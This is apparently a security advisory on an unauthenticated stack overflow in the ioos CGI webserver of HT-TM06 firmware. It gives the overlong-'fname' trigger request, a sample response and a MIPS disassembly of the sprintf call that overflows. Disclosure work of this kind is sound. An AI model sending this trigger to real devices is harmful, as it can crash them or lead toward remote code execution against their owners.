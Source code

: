 This write up focuses on firmware 2.000.030 because at the time of analysis it was the latest version. However, due to the implementation style observed - abundance of `sprintf`s and other dangerous functions, it is believed that earlier versions will also be vulnerable as well. 

*Binary:* /usr/sbin/ioos

`ioos` is a webserver responsible for handling the CGI content of the HT-TM06 web interface. Labeling itself `vshttpd` on HTTP responses, it responds to requests behind a lighttpd proxy. The function of ioos is to coordinate user sessions, authenticate users and reconfigure the system upon request. The webserver is configured to respond to `*.csp` requests such as `GET /protocol.csp`.

Upon closer analysis it was discovered that the ioos webserver has a stack overflow memory corruption vulnerability which can be triggered by an unauthenticated attacker. Most requests require an authentication token in the cookie to process, but the parameters abused by this vulnerability are processed before those checks are completed.

The trigger HTTP request looks as follows:

```
GET /protocol.csp?fname=[long string]&opt=userlock&username=guest&function=get HTTP/1.1
Host: 192.168.1.1
Connection: keep-alive
Cache-Control: no-cache
If-Modified-Since: 0
Accept: */*
Referer: http://192.168.1.1/
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-US,en;q=0.8,ru;q=0.6
```

Notice that the parameter `fname` contains a very long string - longer than 256 bytes. That is what causes the overflow condition. Normally this string is just a few bytes.

A response to this request (without triggering the memory corruption) looks like this:

```
HTTP/1.1 200 OK
Server: vshttpd
Cache-Control: no-cache
Pragma: no-cache
Expires: 0
Content-length: 87
Content-type: text/xml;charset=UTF-8
Set-cookie: SESSID=Xqo72sI1QVtjqoHZWUgOE9 BYbWRzLH7yWvF2PgTv4dPl;
Date: Tue, 24 Jan 2017 15:46:16 GMT

<?xml version="1.0" ?><root><[long string]><waninfo><errno>0</errno></waninfo></[long string]></root>
```

So, it becomes clear that the `fname` parameter is used to construct the XML response string. Looking at the disassembly we can see that the parameter value is used in the `xml_add_elem` function. This function appends a formatted string value to the response message string.

```
xml_add_elem:
.text:00512684 28 01 A2 27    addiu   $v0, $sp, 0x238+var_110  # Add Immediate Unsigned
.text:00512688 21 20 40 00    move    $a0, $v0         # s
.text:0051268C 38 80 85 8F    li      $a1, 0x540000    # Load Immediate
.text:00512690 00 00 00 00    nop
.text:00512694 E8 7A A5 24    addiu   $a1, (aS_19 - 0x540000)  # "</%s>"
.text:00512698 3C 02 A6 8F    lw      $a2, 0x238+element_name($sp)  # Load Word

.text:0051269C E0 87 99 8F    la      $t9, sprintf     # Load Address
.text:005126A0 00 00 00 00    nop
.text:005126A4 09 F8 20 03    jalr    $t9 ; sprintf    # Jump And Link Register
.text:005126A8 00 00 00 00    nop
```

